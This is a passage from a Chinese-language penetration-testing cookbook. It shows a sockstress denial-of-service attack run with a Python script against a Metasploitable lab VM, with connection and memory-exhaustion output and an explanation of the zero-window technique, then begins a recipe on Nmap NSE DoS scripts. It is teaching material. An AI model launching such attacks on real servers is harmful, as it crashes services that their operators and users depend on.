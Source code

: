 ```
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12257     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:54709     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:55595     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12992     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:24171     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:37207     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:39224     ESTABLISHED 
```

在执行脚本后的几分钟，我们可以看到已建立的连接的数量急剧增加。 此处显示的输出已截断，连接列表实际上明显长于此：

```
msfadmin@metasploitable:~$ free -m             
             total       used       free     shared    buffers     cached 
Mem:           503        497          6          0        149        
138 -/+ buffers/cache:        209        294 
Swap:            0          0          0 
```

通过连续使用`free` 工具，我们可以看到，系统的可用内存逐渐耗尽。 一旦内存空闲值下降到几乎没有，空闲缓冲区/缓存空间将开始下降：

```
msfadmin@metasploitable:~$ free -m             
             total       used       free     shared    buffers     cached 
Mem:           503        498          4          0          0          
5 -/+ buffers/cache:        493         10 
Swap:            0          0          0 
```

在本地系统上的所有资源耗尽之后，系统最终会崩溃。 完成此过程所需的时间将取决于可用的本地资源量。 在这里提供的示例中，这是在具有 512 MB RAM 的 Metasploitable VM 上执行的，攻击花费了大约 2 分钟来耗尽所有可用的本地资源并使服务器崩溃。 服务器崩溃后，或者你希望停止 DoS 攻击时，可以按`Ctrl + C`。

```
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20

The onslaught has begun...use Ctrl+C to stop the attack
^C 
pressed Ctrl+C! 
Fixing IP Tables 
```

脚本被编写来捕获由于按`Ctrl + C`而发送的终止信号，并且它将通过去除在终止脚本的执行序列之前生成的规则,来修复本地 iptables。

### 工作原理

在 sockstress DoS 中，三次握手中的最后的 ACK 封包的窗口值为 0。由于连接客户端的空窗口所示，漏洞服务不会传送任何数据来响应连接。 相反，服务器会保存要在内存中传输的数据。 使用这些连接充斥服务器将耗尽服务器的资源，包括内存，交换空间和计算能力。

## 6.9 使用 Nmap NSE 执行 DoS 攻击

Nmap 脚本引擎（NSE）拥有许多可用于执行 DoS 攻击的脚本。 这个特定的秘籍演示了如何找到 NSE DoS 脚本，确定脚本的用法，以及如何执行它们。

### 准备

为了使用 Nmap NSE 执行 DoS 攻击，你需要有一个运行漏洞服务的系统，它易受 Nmap NSE DoS 脚本之一的攻击。 所提供的示例使用 Windows XP 的实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。
